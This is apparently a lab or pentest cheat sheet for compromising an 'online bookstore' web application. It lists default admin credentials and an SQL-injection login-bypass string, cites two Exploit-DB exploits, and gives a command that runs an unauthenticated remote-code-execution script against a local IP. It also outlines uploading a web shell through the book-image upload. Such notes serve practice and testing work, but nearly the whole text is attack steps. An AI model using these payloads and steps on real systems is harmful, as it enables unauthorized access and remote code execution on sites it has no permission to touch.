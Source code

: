 # cse online bookstore

### Default Creds

```bash
admin:admin
```

## v1.0

```
https://www.exploit-db.com/exploits/48960 - Auth Bypass
using admin:%' or '1'='1 

https://www.exploit-db.com/exploits/47887 - Unauth RCE
$ python3 47887.py http://192.168.129.111/store/

# Authenticated RCE
# change image for a book and upload shell
```
